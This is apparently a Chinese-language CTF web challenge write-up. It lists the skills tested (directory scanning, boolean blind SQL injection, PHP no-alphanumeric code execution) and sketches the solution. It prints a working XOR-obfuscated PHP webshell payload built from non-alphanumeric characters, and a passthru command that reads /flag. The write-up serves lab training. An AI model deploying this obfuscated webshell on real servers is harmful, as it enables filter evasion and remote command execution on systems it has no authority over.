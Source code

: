 **考点：**

1）目录扫描敏感信息泄露

2）sql注入之布尔盲注

3）php动态特性+无数字字母rce

4）php系统命令执行函数

**难度：**一般

**思路：**

目录扫描得到robots.txt

sql盲注得到rce界面，盲注脚本同目录下exp_web2.py

构造无数字字母木马进行rce，payload如下：

> $_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); $__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); $___=$$__;$_($___[_]); 

POST传参即可getshell

disable_functions禁用不全，使用：

> _=passthru('cat /flag')

即可getflag

PS: 配置文件未细调，该题可能存在非预期